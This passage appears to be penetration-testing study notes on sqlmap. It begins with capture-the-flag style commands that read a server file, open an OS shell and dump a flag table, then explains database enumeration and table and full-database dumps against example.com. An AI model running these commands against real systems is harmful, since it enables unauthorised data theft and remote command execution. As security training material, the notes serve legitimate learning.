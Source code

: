 14. `sqlmap -r OsExploit.txt --file-read "/var/www/html/flag.txt" --batch --threads 10`
15. `sqlmap -r OsExploit.txt --os-shell --threads 10 --batch`
16. `sqlmap -r Add-To-Cart.txt --threads 10 --tamper=between -T final_flag --dump --batch`

## Database Enumeration
If a user wants to retrieve the "banner" (switch `--banner`) for the target based on MySQL DBMS, the `VERSION()` query will be used for such purpose.  

In case of retrieval of the current user name (switch `--current-user`), the `CURRENT_USER()` query will be used.

Enumeration usually starts with the retrieval of the basic information:

- Database version banner (switch `--banner`)
- Current user name (switch `--current-user`)
- Current database name (switch `--current-db`)
- Checking if the current user has DBA (administrator) rights (switch `--is-dba`)

```shell-session
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

This command will show us the results as DB Version, Current User, Current Database and if the User if the DBA or not.

```shell-session
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```
 This command results in providing us the table names present in the given database.

```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb
```

This `--dump` flag is used to retrieve the contents of the table provided.

```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
```

`-C` is used to retrieve the results of these column names.

## Full DB Enumeration

Instead of retrieving content per single-table basis, we can retrieve all tables inside the database of interest by skipping the usage of option `-T` altogether (e.g. `--dump -D testdb`). By simply using the switch `--dump` without specifying a table with `-T`, all of the current database content will be retrieved. As for the `--dump-all` switch, all the content from all the databases will be retrieved.

In such cases, a user is also advised to include the switch `--exclude-sysdbs` (e.g. `--dump-all --exclude-sysdbs`), which will instruct SQLMap to skip the retrieval of content from system databases, as it is usually of little interest for pentesters.

## DB Schema Enumeration
Finding DB Schema : `sqlmap -u "http://www.example.com/?id=1" --schema`
